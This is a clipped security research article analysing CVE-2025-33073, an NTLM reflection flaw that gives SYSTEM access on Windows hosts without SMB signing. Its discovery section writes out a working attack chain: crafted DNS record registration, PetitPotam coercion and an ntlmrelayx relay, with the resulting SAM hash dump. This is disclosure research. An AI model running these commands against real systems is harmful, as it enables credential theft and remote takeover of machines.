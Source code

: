 ```yaml
---
title: "NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073"
source: "https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025.html?__readwiseLocation="
author:
  - "Synacktiv"
published:
created: 2025-08-13
description: "Introduction  NTLM reflection is a special case of NTLM authentication relay in which the original authentication is relayed back to the machine from which the authentication originated. This class of"
tags:
  - "clippings/articles"
  - "_inbox"
---
```

# NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073

![](https://www.synacktiv.com/sites/default/files/styles/blog_grid_view/public/2025-06/meme.png)

> [!summary]
> This article details CVE-2025-33073, an NTLM reflection vulnerability that bypasses existing mitigations, enabling authenticated remote command execution as SYSTEM on machines without SMB signing. The discovery involved observing unexpected NTLM local authentication when coercing with a specific DNS record format. The root cause lies in how LSASS processes target names, leading to the client's SYSTEM token being relayed. A similar Kerberos vulnerability was also found. The patch prevents SMB connections with marshalled target info, and SMB signing is recommended as a crucial defense-in-depth mitigation.

NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073

## Introduction

NTLM reflection is a special case of NTLM authentication relay in which the original authentication is relayed back to the machine from which the authentication originated. This class of vulnerability was publicly introduced via MS08-68, where Microsoft prevented SMB to SMB NTLM reflection. Over the years, other exploitation vectors were discovered and patched, such as HTTP to SMB reflection (patched in MS09-13) or DCOM to DCOM reflection (patched in MS15-076).

## Vulnerability discovery

As a baseline for our tests, let us see what happens when trying to relay an SMB authentication back to the same machine. Our test machine (SRV1) is an up-to-date Windows Server 2022, domain joined, with SMB signing not enforced:

`$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL [-] Sending EfsRpcEncryptFileSrv! [+] Got expected ERROR_BAD_NETPATH exception!! [+] Attack worked!  # ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support [*] Servers started, waiting for connections [*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL [-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED`

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

To hunt for unusual behavior, we fiddled with different parameters such as the listener host or the client IP address. We registered the `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` DNS record and made it point to our IP address. This format, [first documented](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.htmlhttps://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html) by James Forshaw and also tackled in [one of our previous blogpost](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx), can be used to coerce machines into authenticating via Kerberos to a controlled IP address.

`$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3 [-] Adding new record [+] LDAP operation completed successfully  $ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL [-] Sending EfsRpcEncryptFileSrv! [+] Got expected ERROR_BAD_NETPATH exception!! [+] Attack worked!  # ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support [*] Servers started, waiting for connections [*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL [*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED [*] Service RemoteRegistry is in stopped state [*] Starting service RemoteRegistry [*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash) Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc::: user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70::: [*] Done dumping SAM hashes for host: 192.168.56.14`

Even more surprisingly, `ntlmrelayx.py` was able to remotely dump the SAM hive, which means the identity we relayed was privileged on the machine. This seemed odd to us because the machine account is not privileged on its associated machine.

## Understanding the vulnerability

In order to quickly understand what had happened, network captures were done for both relay attacks. An obvious difference stood out: in the network capture of the relay with the `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` hostname, NTLM local authentication took place! On the contrary, when coercing the machine with an IP address as the listener, a standard NTLM authentication occurred.

### Local NTLM authentication

[NTLM local authentication](https://davenport.sourceforge.net/ntlm.html#localAuthentication) is a special case of NTLM authentication in which the server informs the client (in the `NTLM_CHALLENGE` message) that there is no need to compute the challenge response in the `NTLM_AUTHENTICATE` message.

When the client receives the `NTLM_CHALLENGE` message, it understands that local NTLM authentication must occur. It then adds its token into the server context which was passed  via the ID in the `Reserved` field.

## Conclusion

Even though CVE-2025-33073 is referred by Microsoft as an elevation of privilege, it is actually an authenticated remote command execution as SYSTEM on any machine which does not enforce SMB signing.